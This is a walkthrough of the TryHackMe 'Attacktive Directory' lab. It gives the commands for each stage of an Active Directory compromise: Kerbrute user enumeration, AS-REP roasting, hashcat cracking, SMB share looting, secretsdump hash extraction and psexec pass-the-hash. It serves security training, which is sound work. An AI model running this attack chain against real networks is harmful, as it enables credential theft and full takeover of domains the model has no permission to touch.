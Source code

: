 ```yaml
---
layout: post
title: Attacktive Directory – Try Hack Me
subtitle: Walkthrough
tags: [active,directory,windows]
---
```


99% of Corporate networks run off Active Directory. From this machine you will have a basic understanding on how to exploit such an environment. 

Learning Objectives:

* AD Enumeration
* Kerberos
* Cracking Hashes
* Impacket

[Challenge](https://tryhackme.com/room/attacktivedirectory)

## Task 1

Initiate the VPN connection and deploy the machine

## Task 2 -> Impacket

Install Impacket, this is a collection of Python classes for working with network protocols. To learn more information about Impacket and have and overview about some of its tools you can look [here](https://www.secureauth.com/labs/open-source-tools/impacket).  
Have a look at [this](https://github.com/SecureAuthCorp/impacket.git) Github repository to learn how to install it.

## Task 3 -> Enumeration 1

We start by adding the IP address of our machine to the /etc/hosts

~~~
echo 10.10.194.183 spookysec.local >> /etc/hosts
~~~

Basic nmap scan to discover what we are working with

~~~
nmap spookysec.local
~~~

![nmap](/img/2020-04-26-AttacktiveDir/nmap.png)

Using the first scan we will use the ports discovered and run a more complete scan.

~~~
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389 -A -T4 spookysec.local
~~~

![nmapa](/img/2020-04-26-AttacktiveDir/nmapA.png)

From this scan we discover the Domain Name of the machine as well as the the full AD domain. 

## Task 4 -> Enumeration 2

Using enum4linux we are able to enumerate ports 139 and 445.
This tool has a quite lengthy output, therefore we will only post the important parts for the walkthrough sake.

~~~
enum4linux -A  spookysec.local
~~~

![enum](/img/2020-04-26-AttacktiveDir/enum.png)
![enum2](/img/2020-04-26-AttacktiveDir/enum2.png)

Once more, we managed retrieve information about the full AD domain name and the Domain Name of the machine plus some usernames that might be useful later on. 

We follow using the tool [Kerbrute](https://github.com/ropnop/kerbrute/), which can be installed using the  command:

~~~
go get github.com/ropnop/kerbrute
~~~

Kerbrute is a tool that performs Kerberos pre-auth bruteforcing, in this case we will be using the username bruteforce feature.

~~~
~/go/bin/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt
~~~

![kerbrute](/img/2020-04-26-AttacktiveDir/kerbrute.png)

## Task 5 -> ASREPRoasting

From the output we are able to validate some active usernames.  
Now that we have discovered a several usernames we can use a technique called ASREPRoasting, meaning if a user does not have the Kerberos preauthentication property selected it is possible to retrieve the password hash from that user.
Impacket provides a tool called GetNPUsers.py which can query the AD and if the property above is not selective it will export their TGT.

~~~
python3 GetNPUsers.py spookysec.local/svc-admin
~~~

![tgt](/img/2020-04-26-AttacktiveDir/tgt.png)

We are able to retrieve a hash from the svc-admin account, now proceed to crack the hash using hashcat. In order to discover the mode we can have a look at the [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes).  
We have saved the previous hash in the hash.txt file.

**Note:** If you are using a VM the flag '--force' is required.

~~~
hashcat -m 18200 hash.txt passwordlist.txt --force
~~~

## Task 6 -> Enumeration 3

Having user credentials we can attempt to log into SMB and explore any shares from the domain controller.
This is possible with the tool smbclient, make sure to use the user 'svc-admin' as well as the previous cracked password.

~~~
smbclient -L spookysec.local --user svc-admin
~~~

![smb](/img/2020-04-26-AttacktiveDir/smb.png)

After exploring several shares, we found the file 'backup_credentials.txt'. 

~~~
smbclient \\\\spookysec.local\\backup --user svc-admin
~~~

![smb2](/img/2020-04-26-AttacktiveDir/smb2.png)

Looking at the content of the file we can see it is encoded with Base64. To decode it simply use the following command:

~~~
base64 -d backup_credentials.txt
~~~

## Task 7 -> Elevating Privileges

Using the backup account we can use another tool from Impacket this time called 'secretsdump.py', we will be able to get all the password hashes that this user account has access to.

~~~
python3 secretsdump.py -just-dc backup@spookysec.local
~~~

![secret](/img/2020-04-26-AttacktiveDir/secret.png)

Now we are in possession of the Administrator password hash. The next step will be performing a [Pass the Hash Attack](https://attack.stealthbits.com/pass-the-hash-attack-explained). 
We can use another tool from Impacket called 'psexec.py', for this tool you must paste the complete Administrator hash in the following command:

~~~
python3 psexec.py Administrator:@spookysec.local -hashes <Complete Hash>
~~~

![rce](/img/2020-04-26-AttacktiveDir/rce.png)

Congratulations, you now have complete access to the system, feel free to navigate to each user Desktop and get the flags.
Hope you enjoyed this guide. :)
